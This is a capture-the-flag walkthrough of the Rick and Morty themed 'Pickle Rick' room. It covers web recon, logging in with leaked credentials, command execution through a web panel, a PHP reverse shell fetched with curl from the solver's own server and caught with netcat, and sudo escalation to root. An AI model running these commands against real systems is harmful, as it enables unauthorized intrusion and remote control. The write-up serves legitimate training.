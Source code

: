 # Pickle rick

## Challenge info

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

## 1 - What is the first ingredient Rick needs?

Accessing the webpage there's some text and an image, viewing the source code there is a username

```
Username: R1ckRul3s
```

Issue a gobuster to recon the folders

```
/assets
```

Issue a gobuster to recon the folders (with common word list)

```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
```
there was nothing besides the images in this pages, so i tried a /login.php and it exists


Issue a nmap to recon the services

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fb:d0:58:44:f3:ea:b1:5f:c0:c6:6e:42:be:85:dd:78 (RSA)
|   256 d0:c7:98:36:9d:bd:78:a3:53:32:09:63:0f:30:71:76 (ECDSA)
|_  256 79:3d:82:c9:b1:7f:97:87:17:7b:b7:4f:f1:84:c6:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
```

Robots.txt content

```
Wubbalubbadubdub
```

Tried the username and the text found in robots as password, and it worked!

/login.php
username: R1ckRul3s
password: Wubbalubbadubdub

Caviat is that the only page accessible is the commands, the others suggest that this is a fake account for rick (since is rick rules, may be a Morty acc ?! :D )

First thing i tried in this command was <b>ls</b>, and yeah, it lists the cwd at the machine

```
ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Lets check what the first file has

```
cat Sup3rS3cretPickl3Ingred.txt
Command disabled

strings Sup3rS3cretPickl3Ingred.txt

mr. meeseek hair
```
### Answer: mr. meeseek hair

## 2 - Whats the second ingredient Rick needs?

Lets check the clue.txt

```
strings clue.txt

Look around the file system for the other ingredient.
```

Lets check the home directory

```
cd /home ; ls -la

total 16
drwxr-xr-x  4 root   root   4096 Feb 10  2019 .
drwxr-xr-x 23 root   root   4096 Sep  9 19:50 ..
drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
drwxr-xr-x  4 ubuntu ubuntu 4096 Feb 10  2019 ubuntu
```
We can access and edit the rick folder (we are www-data) but that is the current directory we just listed

The thing is that we need to list right after cd, otherwise it stay on that new path
```
cd /home/rick/ ; ls -la

total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients

strings /home/rick/second\ ingredients
1 jerry tear
```

### Answer: 1 jerry tear

## 3 - Whats the final ingredient Rick needs?

Lets just check the ubuntu folder for conscience check

```
ls -la /home/ubuntu/

total 40
drwxr-xr-x 4 ubuntu ubuntu 4096 Feb 10  2019 .
drwxr-xr-x 4 root   root   4096 Feb 10  2019 ..
-rw------- 1 ubuntu ubuntu  320 Feb 10  2019 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Aug 31  2015 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .cache
-rw-r--r-- 1 ubuntu ubuntu  655 May 16  2017 .profile
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Feb 10  2019 .sudo_as_admin_successful
-rw------- 1 ubuntu ubuntu 4267 Feb 10  2019 .viminfo

unfortunately we cant read the ssh folder, to get the private key, lets just check the ones readable by us
```

Tried nc -l 9999 -e /bin/bash but no luck, to agilize things i just spawned a server in my local machine and from the remote i downloaded a php-reverse-shell to /tmp

Local
```
cp /usr/share/webshells/php/php-reverse-shell.php revshell.php
python -m SimpleHTTPServer
```

Remote
```
curl "http://10.9.128.84:8000/revshell.php" > /tmp/rev.php

strings /tmp/rev.php (just to check)
```

Now listen on the port that was set in the revshell file

```
nc -lnv 9999
```

Just exec the shell on the remote

```
php /tmp/rev.php &
```

Just check what www-data can run as sudo

```
sudo -l
(ALL) NOPASSWD: ALL

sudo su
whoami
# root

cd /root/

drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Sep  9 19:50 ..
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
drwx------  2 root root 4096 Feb 10  2019 .ssh

cat 3rd.txt
3rd ingredients: fleeb juice
```

### Answer: fleeb juice

The room is finalized, but im curious to see the other tabs in the web page

They all redirect to denied so, theres nothing there

Also, after solved, i found a base64 encoded string in the source code of /portal.php

but when recursively decoding, the final result reveals that i'm stupid: 

```
Decoded: rabit hole
```
